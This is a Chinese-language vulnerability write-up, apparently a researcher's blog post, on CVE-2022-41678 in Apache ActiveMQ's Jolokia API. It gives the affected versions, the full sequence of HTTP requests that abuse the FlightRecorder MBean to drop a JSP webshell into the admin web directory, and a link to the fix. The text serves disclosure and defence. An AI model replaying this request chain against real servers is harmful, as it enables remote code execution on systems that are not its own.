









# Apache ActiveMQ Jolokia 远程代码执行漏洞(CVE-2022-41678)分析

发表于 2023-11-29 更新于 2023-11-30 阅读次数： 1018 Valine：

[↓↓↓](#valine-comments "valine")  
  
0  
  
[↑↑↑](#valine-comments "valine")

ActiveMQ中，经过身份验证的用户默认情况下可以通过`/api/jolokia/`接口操作MBean，其中FlightRecorder可以被用于写Jsp WebShell，从而造成远程代码执行漏洞

FlightRecorder存在于Jdk 11+，具体类名：`jdk.management.jfr.FlightRecorderMXBeanImpl`

这个漏洞是我去年通过微步的X漏洞奖励计划提交的，今天看到已经被修复和公开了，就顺便写一下分析文章

## [](#%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4 "影响范围")影响范围

-   Apache ActiveMQ before 5.16.6
-   Apache ActiveMQ 5.17.0 before 5.17.4
-   Apache ActiveMQ 5.18.0 unaffected
-   Apache ActiveMQ 6.0.0 unaffected

## [](#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90 "漏洞分析")漏洞分析

### [](#%E5%8E%9F%E7%90%86 "原理")原理

漏洞入口在 [http://localhost:8161/api/jolokia/](http://localhost:8161/api/jolokia/) ，注意需要带上Origin头才可以访问



主要问题出在FlightRecorder这个Mbean，功能是记录内存，gc，调用栈等，漏洞用到的方法主要是以下几个

-   newRecording
    -   新建记录
-   setConfiguration
    -   更改配置
-   startRecording
    -   开始录制
-   stopRecording
    -   结束录制
-   copyTo
    -   导出录制文件

漏洞思路是通过setConfiguration修改配置，把一些键名改成jsp代码，记录的数据就会包含该jsp代码，录制完成后，通过copyTo导出到web目录即可

代码位置在 jdk.management.jfr.FlightRecorderMXBeanImpl#setConfiguration

### [](#%E6%8B%BF%E5%88%B0%E9%BB%98%E8%AE%A4%E9%85%8D%E7%BD%AE "拿到默认配置")拿到默认配置

调用setPredefinedConfiguration，断点停下来后可以拿到默认的配置，先保存下来

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 155

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setPredefinedConfiguration",
    "arguments": [1,"s"]
}
```



### [](#%E6%96%B0%E5%BB%BA%E8%AE%B0%E5%BD%95 "新建记录")新建记录

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```

记录的id 为 1，后面poc都要使用这个id



### [](#%E6%9B%B4%E6%94%B9%E9%85%8D%E7%BD%AE "更改配置")更改配置

将默认配置的如下处改为jsp代码，特殊字符需要实体编码



如下 arguments 的第一位参数是记录id，第二个参数是配置内容（很长，已省略）

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 31263

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setConfiguration",
    "arguments": [1,"..."]
}
```



### [](#%E5%AF%BC%E5%87%BA%E5%BD%95%E5%88%B6%E5%88%B0web%E7%9B%AE%E5%BD%95 "导出录制到web目录")导出录制到web目录

开始录制

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 141

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "startRecording",
    "arguments": [1]
}
```



结束录制

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [1]
}
```



导出到web目录

```plain
POST /api/jolokia/ HTTP/1.1
Host: localhost:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 159

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [1,"../webapps/admin/test.jsp"]
}
```



### [](#%E8%AE%BF%E9%97%AEwebshell "访问webshell")访问webshell

[http://localhost:8161/admin/test.jsp](http://localhost:8161/admin/test.jsp)



## [](#%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D "漏洞修复")漏洞修复

[https://github.com/apache/activemq/commit/6120169e5](https://github.com/apache/activemq/commit/6120169e5)

[\# 漏洞分析](https://l3yx.github.io/tags/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/) [\# ActiveMQ](https://l3yx.github.io/tags/ActiveMQ/) [\# Jolokia](https://l3yx.github.io/tags/Jolokia/)

[↓↓↓](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")  
  
Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析  
  
[↑↑↑](https://l3yx.github.io/2023/09/28/Spring-Kafka-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-CVE-2023-34040-%E5%88%86%E6%9E%90/ "Spring-Kafka 反序列化漏洞(CVE-2023-34040)分析")
